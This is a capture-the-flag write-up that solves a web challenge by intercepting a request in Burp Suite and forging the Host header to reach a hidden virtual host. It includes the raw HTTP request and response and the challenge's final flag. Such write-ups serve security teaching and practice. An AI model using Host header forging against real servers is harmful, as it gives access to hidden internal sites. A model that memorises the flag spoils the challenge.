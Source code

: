# Research Materials [499 Points]
You want to get the research materials and find out which part of the development goes wrong. The research materials are hidden in the system topsecret.vaccine.dev. How do you get it? Note : All 403s for this challenge are intended. We've tested it.

http://research.nypinfsecctf.tk/

## Solution

1. We set up a proxy on our browser and burp suite to intercept the request when visiting http://research.nypinfsecctf.tk/, since visting it in the web browser gives a 403 Forbidden error.
```
GET / HTTP/1.1

Host: research.nypinfsecctf.tk

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```
2. Once intercepted, we change the host from research.nypinfsecctf.tk to topsecret.vaccine.dev since this is suggested in the challenge description.
```
Host: topsecret.vaccine.dev
```
3. We then right clicked and select 'Do intercept Response to this request' and forward the configured request to the web browser.
```
HTTP/1.1 200 OK

Server: nginx/1.18.0 (Ubuntu)

Date: Mon, 09 May 2022 03:19:58 GMT

Content-Type: text/html; charset=utf-8

Connection: close

Content-Length: 25



/f/Evommgb5azlyCaYMDHW57Q
```
4. ```/f/Evommgb5azlyCaYMDHW57Q``` looks like a path so we add it to the back of research.nypinfsecctf.tk    

5. We then visit ```research.nypinfsecctf.tk/f/Evommgb5azlyCaYMDHW57Q``` in our web browser (do not need proxy and burp suite anymore), to obtain the flag.
```
Flag: NYP{h0st_h3ad3r_f0rg1ng}
```
